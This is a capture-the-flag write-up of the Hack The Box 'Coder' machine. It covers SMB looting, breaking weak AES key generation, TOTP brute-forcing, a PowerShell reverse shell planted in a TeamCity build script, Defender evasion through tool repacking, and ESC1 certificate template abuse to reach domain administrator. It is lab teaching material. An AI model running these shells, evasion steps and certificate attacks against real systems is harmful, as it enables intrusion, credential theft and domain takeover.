



# Synopsis

Enumerate interesting files in the SMB shares. Reverse the binary used for encryption to get the **AES-256** secrets to decrypt the file and open the KeePass file to gain access to the teamcity-dev subdomain. Exploit the vulnerable OTP service to login. Then we can add our malicous diff file to patch the Powershell script and catch a reverse shell. Once we have a foothold, we can find more diff files. One of them containing the encrypted password for the `e.black` user.

To become Administrator, we need to exploit the rights of the `PKI Admins` group. Analysing the privleges of the group, we find that we can upload and issue our own vulnerable certificates which we then can use to forge a certificate for the Administrator user. PKINITtools was used to dump the NT hash.

# Enumeration

This is a full port scan of the box:

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-23 19:29 CEST
Nmap scan report for coder.htb (10.10.11.207)
Host is up (0.020s latency).
Not shown: 65507 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-24 01:26:18Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: coder.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-24T01:27:16+00:00; +7h55m47s from scanner time.
| ssl-cert: Subject: commonName=dc01.coder.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.coder.htb
| Not valid before: 2022-06-30T04:24:26
|_Not valid after:  2023-06-30T04:24:26
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-IIS/10.0
|_ssl-date: 2023-10-24T01:27:15+00:00; +7h55m46s from scanner time.
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=default-ssl/organizationName=HTB/stateOrProvinceName=CA/countryName=US
| Not valid before: 2022-11-04T17:25:43
|_Not valid after:  2032-11-01T17:25:43
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: coder.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.coder.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.coder.htb
| Not valid before: 2022-06-30T04:24:26
|_Not valid after:  2023-06-30T04:24:26
|_ssl-date: 2023-10-24T01:27:15+00:00; +7h55m46s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: coder.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-24T01:27:16+00:00; +7h55m47s from scanner time.
| ssl-cert: Subject: commonName=dc01.coder.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.coder.htb
| Not valid before: 2022-06-30T04:24:26
|_Not valid after:  2023-06-30T04:24:26
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: coder.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-24T01:27:15+00:00; +7h55m46s from scanner time.
| ssl-cert: Subject: commonName=dc01.coder.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.coder.htb
| Not valid before: 2022-06-30T04:24:26
|_Not valid after:  2023-06-30T04:24:26
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49688/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49689/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
49712/tcp open  msrpc         Microsoft Windows RPC
59768/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h55m46s, deviation: 0s, median: 7h55m45s
| smb2-time: 
|   date: 2023-10-24T01:27:08
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.49 seconds
```

## SMB Adventures
```
smbclient -N -L //coder.htb
Can't load /etc/samba/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
        ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Development     Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	Users           Disk      
```

The 'Users' directory contains a lot of files:

```zsh
smbclient -N //coder.htb/Users
```

However, the *"Development"* share caught my eye.
We can recursively download the share using the following commands:

```zsh
smbclient -N -L //coder.htb/Development
mask ""
recurse ON
prompt OFF
lcd './'
mget *
```

This download will take some time to complete. Upon completion we will have two directories: (Development was there because I was testing something earlier)


Inside the `Temporary Projects` folder we find some interesting stuff.


A file `Encrypter.exe` and a file with the name `s.blade.enc`.
The `Encrypter.exe` is some kind of windows excecutable.
`s.blade.enc` looks like some encrypted data. 


Our next step will be figuring out how it was encrypted.

## Reversing the Executable

For this part I had to revive ye olden virtual machine, because this is a **.NET** compiled application. Now we'll host the binary so we can copy it to our virtual machine, for this I use this oneliner. It lists the file, shows my IP address and hosts the directory.

```zsh
ifconfig tun0 | grep inet\  && ls && python3 -m http.server
```


After ignoring all the warnings given by Microsoft Windows, you should now have it on your machine.
For reversing .NET binaries on windows my go-to is ILSpy however feel free to use any other decompiler.

Here is a screenshot of the main method:


We are interested in the `EncryptFile` method:


It looks like it encrypts files using ***AES-256***.
The `EncryptFile` method takes the following parameters as input: a sourcefile, a destinationfile, a key, and the IV.

he vulnerability here is that a pseudo-random number generator is used. We can find the timestamp the file was created and use that to compute the IV and key.


We can convert this to a UNIX timestamp. I used [this online converter.](https://www.unixtimestamp.com/)


The key and initialization vector (IV) can now be retrieved:

```csharp
using System;
					
public class Program
{
	public static string ByteArrayToString(byte[] ba)
{
  return BitConverter.ToString(ba).Replace("-","");  // This just converts the byte array to a hexstring
}
	
	public static void Main()
	{
		Int32 value = 1668205028; // The timestamp we retrieved from the smb share
		Random random = new Random(Convert.ToInt32(value));
		byte[] array = new byte[16]; // 
		random.NextBytes(array);	// compute the IV
		byte[] array2 = new byte[32]; 
		random.NextBytes(array2);	// compute the Key
		
		Console.WriteLine("Key: " + ByteArrayToString(array2));
		Console.WriteLine("IV: " + ByteArrayToString(array));	// writes it all to the console
	}
}
```

Which gives us:

```yaml
Key: 0E674FD72BA946B290BE0A5E88672402587129B780DB134808C1EDCE0BFEB48C
IV: 3E65D265E62244DF1F308C6836AD215B
```

For decrypting the file, a small Python script with `Pycryptodome` can be used:

```python
from Crypto.Cipher import AES
key = bytes.fromhex('0E674FD72BA946B290BE0A5E88672402587129B780DB134808C1EDCE0BFEB48C')
iv = bytes.fromhex('3E65D265E62244DF1F308C6836AD215B')
cipher = AES.new(key, AES.MODE_CBC,iv)
with open("s.blade.enc",'rb') as f:
    data = f.read()
    f.close()
pt = cipher.decrypt(data)
with open('Decrypted.dat', 'wb') as f:
    f.write(pt)
```

Which gives us a 7-Zip archive file.


We can extract the data by using 7zip.
```bash
7z x Decrypted.zip
```

This reveals a `kdbx` file named `s.blade.kdbx`, and a key file named `.key`.
We can unlock it using KeePass and the `.key` key file.




Inside of the KeePass file we also find a URL: https://teamcity-dev.coder.htb.

And we get usernames and passwords:

```yaml
O365 => 	s.blade@coder.htb:AmcwNO60Zg3vca3o0HDrTC6D
Teamcity => s.blade:veh5nUSZFFoqz9CrrhSeuwhA
```

## AD Tomfoolery: Part One

Looks like we can use *Server Message Block (SMB)* to connect using the password `AmcwNO60Zg3vca3o0HDrTC6D`, which means the relative IDs can be bruteforced to obtain all the users present on the domain:

```zsh
./cme smb coder.htb -u s.blade -p AmcwNO60Zg3vca3o0HDrTC6D --rid-brute
SMB         10.10.11.207    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:coder.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.207    445    DC01             [+] coder.htb\s.blade:AmcwNO60Zg3vca3o0HDrTC6D 
SMB         10.10.11.207    445    DC01             [+] Brute forcing RIDs
SMB         10.10.11.207    445    DC01             498: CODER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.207    445    DC01             500: CODER\Administrator (SidTypeUser)
SMB         10.10.11.207    445    DC01             501: CODER\Guest (SidTypeUser)
SMB         10.10.11.207    445    DC01             502: CODER\krbtgt (SidTypeUser)
SMB         10.10.11.207    445    DC01             512: CODER\Domain Admins (SidTypeGroup)
SMB         10.10.11.207    445    DC01             513: CODER\Domain Users (SidTypeGroup)
SMB         10.10.11.207    445    DC01             514: CODER\Domain Guests (SidTypeGroup)
SMB         10.10.11.207    445    DC01             515: CODER\Domain Computers (SidTypeGroup)
SMB         10.10.11.207    445    DC01             516: CODER\Domain Controllers (SidTypeGroup)
SMB         10.10.11.207    445    DC01             517: CODER\Cert Publishers (SidTypeAlias)
SMB         10.10.11.207    445    DC01             518: CODER\Schema Admins (SidTypeGroup)
SMB         10.10.11.207    445    DC01             519: CODER\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.207    445    DC01             520: CODER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.207    445    DC01             521: CODER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.207    445    DC01             522: CODER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.207    445    DC01             525: CODER\Protected Users (SidTypeGroup)
SMB         10.10.11.207    445    DC01             526: CODER\Key Admins (SidTypeGroup)
SMB         10.10.11.207    445    DC01             527: CODER\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.207    445    DC01             553: CODER\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.207    445    DC01             571: CODER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.207    445    DC01             572: CODER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.207    445    DC01             1000: CODER\DC01$ (SidTypeUser)
SMB         10.10.11.207    445    DC01             1101: CODER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.207    445    DC01             1102: CODER\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.207    445    DC01             1106: CODER\e.black (SidTypeUser)
SMB         10.10.11.207    445    DC01             1107: CODER\c.cage (SidTypeUser)
SMB         10.10.11.207    445    DC01             1108: CODER\j.briggs (SidTypeUser)
SMB         10.10.11.207    445    DC01             1109: CODER\l.kang (SidTypeUser)
SMB         10.10.11.207    445    DC01             1110: CODER\s.blade (SidTypeUser)
SMB         10.10.11.207    445    DC01             2101: CODER\PKI Admins (SidTypeGroup)
SMB         10.10.11.207    445    DC01             3601: CODER\Software Developers (SidTypeGroup)
```

There are two noteworthy group: `PKI Admins` and `Software Developers`.
The PKI Admins is possibly related to an AD Certificate Service.

After applying some regular expression magic, these usernames will remain:

```bash
CODER\Administrator
CODER\Guest
CODER\krbtgt
CODER\DC01$
CODER\e.black
CODER\c.cage
CODER\j.briggs
CODER\l.kang
CODER\s.blade
```

Password spraying reveals nothing :(
Unfortunately this has lead us to a dead-end.

# Foothold

## Dominating Team City

After discovering the teamcity-dev subdomain we can authenticate using the `s.blade` username and `veh5nUSZFFoqz9CrrhSeuwhA` password.
However we can't login directly due to MFA :(

Making a request to `2fa.html` reveals the password parameter. According to the website it's only 6 digits long. That's not alot so let's make an attempt at bruteforcing it.

### The Skiddilicous Way

We can use Burp Suite to bruteforce the one-time password.


After waiting for a little bit, it should have found the 2FA. However this tactic isn't reliable and not really a "good" way.

### The QuackJitsu Way

Since we leaked the encrypted secret used to generate the OTP from the KeePass file, we can bruteforce the password. It's encrypted using AES.

```node
const fs = require("fs");
const readline = require("readline");
const cryptojs = require("crypto-js");

let r = readline.createInterface({
    input: fs.createReadStream("/usr/share/wordlists/rockyou.txt"),
});

const enc2 =
    "U2FsdGVkX19dvUpQDCRui5XaLDSbh9bP00/1iBSrKp7102OR2aRhHN0s4QHq/NmYwxadLeTN7Me1a3LrVJ+JkKd76lRCnd1utGp/Jv6w0hmcsqdhdccOpixnC3wAnqBp+5QyzPVaq24Z4L+Rx55HRUQVNLrkLgXpkULO20wYbQrJYN1D8nr3g/G0ukrmby+1";
const secret2 =
    "U2FsdGVkX1+3JfFoKh56OgrH5jH0LLtc+34jzMBzE+QbqOBTXqKvyEEPKUyu13N2";

r.on("line", function (word: string) {
    let dec = cryptojs.AES.decrypt(enc2, word).toString();
    try {
        let secret = cryptojs.AES.decrypt(secret2, dec).toString(cryptojs.enc.Utf8);
        if (
            (/^[0-9a-f]+$/i.test(secret) || /^[2-7a-z]+=*$/i.test(secret)) &&
            secret.length > 5
        ) {
            console.log("Secret: " + secret + " Passphrase: " + word);
            process.exit(0);
        }
    } catch {}
});
```

Running this script will give us the secret and the passphrase used for encryption.


Secret: `PM2CG6RO73QT74WS`

Then we can use this secret to predict and find the OTP. While doing this box I used [https://totp.danhersam.com/](https://totp.danhersam.com/)


Make sure your PC clock is synced - some Network Time Protocol (NTP) magic may need to be done.

```bash
sudo apt install ntp
sudo ntpdate -b coder.htb
```

If you experience any issues, then Google is your best friend.



And... boom! We acquired the current MFA key.

### Popping a Shell

After authenticating, we find ourselves on the TeamCity starting page.


I decided to peek around and noticed it runs or builds the `hello_world.ps1` which was in the `/Migrations/teamcity_test_repo` share. 


The content of `hello_world.ps1` was the following:
```powershell
#Simple repo test for Teamcity pipeline
write-host "Hello, World!"
```

When viewing a build I got curious and pressed the top right corner of the screen to get more info. This revealed that we can patch the script.


So I changed my `hello_world.ps1` to:
```powershell
# Simple repo test for Teamcity pipeline
write-host "Hello, World!"
$LHOST = "10.10.14.15"; $LPORT = 1337; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

And to get the diff format we just use git.
```bash
git diff hello_world.ps1 > quacky.patch
```

We can now upload and run it to catch an easy reverse shell.
```zsh
nc -lvnp 1337
Connection from coder.htb:64698
whoami
coder\svc_teamcity
```

# Obtaining User

Because the shell is difficult to use, I decided to upgrade it with [Villian](https://github.com/t3l3machus/Villain). Start Villian, and let the reverse shell connect to TCP port 4443.

After snooping around some files on the box, I found this directory which contained a lot of diff files.


The first file seems promising.


In the image below, I formatted it to make it easier to read.


The diff file appears to be removing the key file and adding an encrypted string, named `enc.txt`. From this, we can infer that the following is likely to be another cryptography challenge.

This is our ciphertext:
```zsh
echo -n 76492d1116743f0423413b16050a5345MgB8AGoANABuADUAMgBwAHQAaQBoAFMAcQB5AGoAeABlAEQAZgBSAFUAaQBGAHcAPQA9AHwANABhADcANABmAGYAYgBiAGYANQAwAGUAYQBkAGMAMQBjADEANAAwADkAOQBmADcAYQBlADkAMwAxADYAMwBjAGYAYwA4AGYAMQA3ADcAMgAxADkAYQAyAGYAYQBlADAAOQA3ADIAYgBmAGQANAA2AGMANQBlAGUAZQBhADEAZgAyAGQANQA3ADIAYwBjAGQAOQA1ADgAYgBjAGIANgBhAGMAZAA4ADYAMgBhADcAYQA0ADEAMgBiAGIAMwA5AGEAMwBhADAAZQBhADUANwBjAGQANQA1AGUAYgA2AGIANQA5AGQAZgBmADIAYwA0ADkAMgAxADAAMAA1ADgAMABhAA== > key.txt
```

And this is our key (which has been converted to base64, due to the nuisance of excessive newlines):
```zsh
echo -n MTQ0IAoyNTUgCjUyIAozMyAKNjUgCjE5MCAKNDQgCjEwNiAKMTMxIAo2MCAKMTc1IAoxMjkgCjEyNyAKMTc5IAo2OSAKMjggCjI0MSAKNzAgCjE4MyAKNTMgCjE1MyAKMTk2IAoxMCAKMTI2IAoxMDggCjE2NCAKMTcyIAoxNDIgCjExOSAKMTEyIAoyMCAKMTIyIAo= | base64 -d > key.txt
```

While analyzing the diff file you might notice these lines.


We can actualy repeat these commands in our own envirement and extract the plaintext password


And thats game lads.


```zsh
evil-winrm -i coder.htb -u e.black -p ypOSJXPqlDOxxbQSfEERy300
```
# Fully Compromised: Obtaining Root

## AD Tomfoolery: Part Two

----

Now that we have a valid user that can winrm. We can try to farm data for bloodhound using bloodhound.py:
```zsh
bloodhound-python -d coder.htb -u e.black@coder.htb -p ypOSJXPqlDOxxbQSfEERy300 -ns coder.htb -c all --zip
```


And we find that Erron Black is a member of PKI admins. Unfortunately, this group does not have any outbound object control.
The `s.blade` user is a member of the software developers group and the `BUILDAGENT MGMT` group (see the image below):


## Bypassing Defender for fun and profit

We quickly find that all of our tools get blocked by ~~Windows~~ Microsoft Defender, an antivirus solution developed for Windows machines. To bypass it, we can use a repacking utility (similar to e.g. UPX).
For this box, we used [NimPacket](https://github.com/chvancooten/NimPackt-v1), though other (re)packers are likely to work as well.

```zsh
sudo docker run --rm -v `pwd`:/usr/src/np -w /usr/src/np chvancooten/nimbuild python3 NimPackt.py -e execute-assembly -i RunasCs.exe -S
```


This binary will not be blocked by Defender anymore! :
Now let's continue with our active directory tomfoolery.

We can also use Evil-winrm to load in powershell scripts. To do so make a directory with your scripts I.E /pwsh/ and start evil-winrm with the -s parameter:

```zsh
evil-winrm -i coder.htb -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -s ./pwsh/
```

Then we can run Bypass-4MSI to patch the AV and we can import it by just typing the name of the powershell script.

## Resuming AD Tomfoolery


noun: *tomfoolery*
- "foolish or silly behaviour."


By using our packed Certify.exe binary we can enumerate PKI object controllers.
```powershell
*Evil-WinRM* PS C:\Users\e.black\Documents> .\CertifyExecAssemblyNimPackt.exe pkiobjects
```
We notice that our user `e.black` who is in the `PKI Admins` group has some interesting rights.


Running the following commands reveals a Description for this group.
```
*Evil-WinRM* PS C:\Users\e.black\Documents> net GROUP "PKI Admins" /domain
```
```
Group name     PKI Admins
Comment        ADCS Certificate and Template Management
 
Members
 
-------------------------------------------------------------------------------
e.black
The command completed successfully.
```


The important part here is that we can manage templates. Previous attempts with certipy failed possible because we can't do it remotely. Let's make another attempt using Certify.exe.

Let's enumerate the certificate templates for our tomfoolery purposes

1. Coder-WebServer
2. KerberosAuthentication
3. DirectoryEmailReplication
4. DomainControllerAuthentication
5. SubCA
6. WebServer
7. DomainController
8. Machine
9. EFSRecovery
10. Administrator
11. EFS
12. User

Unfortunatly none of these are vulnerable to any known misconfigurations.
But since we are in the PKI Admins group we can manage the Active Directory Certificate Service.
With this knowledge we can attempt to upload our own templates. Usualy this is done with the GUI (*Microsoft Management Console*). We don't have access to a RDP connection so we will have to be a little bit more creative:

https://github.com/GoateePFE/ADCSTemplate

Here is a template that is vulnerable to the ESC1 vulnerablity:
```json
{
    "name":  "quacked",
    "displayName":  "quacked",
    "objectClass":  "pKICertificateTemplate",
    "flags":  131616,
    "revision":  100,
    "msPKI-Cert-Template-OID":  "1.3.6.1.4.1.311.21.8.16735922.7437492.10570883.2539024.15756463.185.9025784.11813639",
    "msPKI-Certificate-Application-Policy":  [
                                                 "1.3.6.1.5.5.7.3.2"
                                             ],
    "msPKI-Certificate-Name-Flag":  1,
    "msPKI-Enrollment-Flag":  0,
    "msPKI-Minimal-Key-Size":  2048,
    "msPKI-Private-Key-Flag":  16842752,
    "msPKI-RA-Signature":  0,
    "msPKI-Template-Minor-Revision":  4,
    "msPKI-Template-Schema-Version":  2,
    "pKICriticalExtensions":  [
                                  "2.5.29.15",
                                  "2.5.29.7"
                              ],
    "pKIDefaultCSPs":  [
                           "3,Microsoft Base DSS Cryptographic Provider",
                           "2,Microsoft Base Cryptographic Provider v1.0",
                           "1,Microsoft Enhanced Cryptographic Provider v1.0"
                       ],
    "pKIDefaultKeySpec":  2,
    "pKIExpirationPeriod":  [
                                0,
                                64,
                                57,
                                135,
                                46,
                                225,
                                254,
                                255
                            ],
    "pKIExtendedKeyUsage":  [
                                "1.3.6.1.5.5.7.3.2"
                            ],
    "pKIKeyUsage":  [
                        128,
                        0
                    ],
    "pKIMaxIssuingDepth":  0,
    "pKIOverlapPeriod":  [
                             0,
                             128,
                             166,
                             10,
                             255,
                             222,
                             255,
                             255
                         ]
}
```
By uploading the json to the dc we can then issue the template using ADCSTemplate:

```powershell
New-ADCSTemplate -DisplayName Evil_Empire_Laughing_All_The_Way_To_the_Bank -JSON (Get-Content .\ESC1.json -Raw) -Publish -Identity "CODER\PKI Admins"
 ```
 
We then can verify the existance of this template using Certify.exe.

```
.\CertifyExecAssemblyNimPackt.exe find
```


And now it's time to abuse it.
Back on our pwnbox we can use certipy to obtain the Administrator certificate.
```zsh
certipy req -username e.black@coder.htb -password ypOSJXPqlDOxxbQSfEERy300 -ca coder-DC01-CA -template 'Evil_Empire_Laughing_All_The_Way_To_the_Bank' -upn 'administrator@coder.htb'  -debug

[+] Resolved 'CODER.HTB' from cache: 10.10.11.207
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.207[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.207[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 30
[*] Got certificate with UPN 'administrator@coder.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

To obtain the NT hash I used the infamous PKINITtools developped by dirk-jan
```zsh
python PKINITtools/gettgtpkinit.py -cert-pfx administrator.pfx coder/administrator admin.ccache
```

This will give us a cache file and the AS-REP hash, which we're going to need later.
Don't forget to export the ccache to the enviroment variable `KRB5CCNAME`!
```zsh
export KRB5CCNAME=admin.ccache
```

And finally...
```bash
python ./PKINITtools/getnthash.py coder/administrator -key $as-rep-hash
```

Which should output `807726fcf9f188adc26eeafd7dc16bb7`, which can be used to login using WinRM.
```
evil-winrm -i coder.htb -u administrator -H 807726fcf9f188adc26eeafd7dc16bb7
```


And thats it! I hope you liked reading this blog post as much as we liked writing it.